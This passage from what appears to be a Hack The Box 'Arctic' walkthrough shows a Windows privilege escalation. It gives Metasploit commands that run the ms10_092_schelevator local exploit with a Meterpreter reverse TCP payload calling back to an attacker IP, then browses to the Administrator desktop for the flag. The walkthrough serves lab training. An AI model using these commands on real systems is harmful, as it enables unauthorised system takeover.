 Now we have 3 exploits that we can be running on that machine. From
those payloads ms10_092_schelevator this one worked. Other two doesn\'t
work because it will need to install specific services. So copy that
fist payload and use it.

```shell
use exploit windows/local/ms10_092_schelevator\
set SESSION 1\
set payload windows/meterpreter/reverse_tcp\
set LHOST 10.10.14.27\
set LPORT 1234 //because we already running 4444,444\
run
```

Now we got the Meterpreter sessions. Now type dir command. and we are
inside the windows. lets go back with ``` cd .. ``` and now go to ``` cd Users/Administrator/Desktop we will find the root.txt ```

![](/assets/Arctic_htb/media/image26.png)

That\'s it We are Done.Since it is the old machine but this Post
exploitation method still can be used to break new machines.
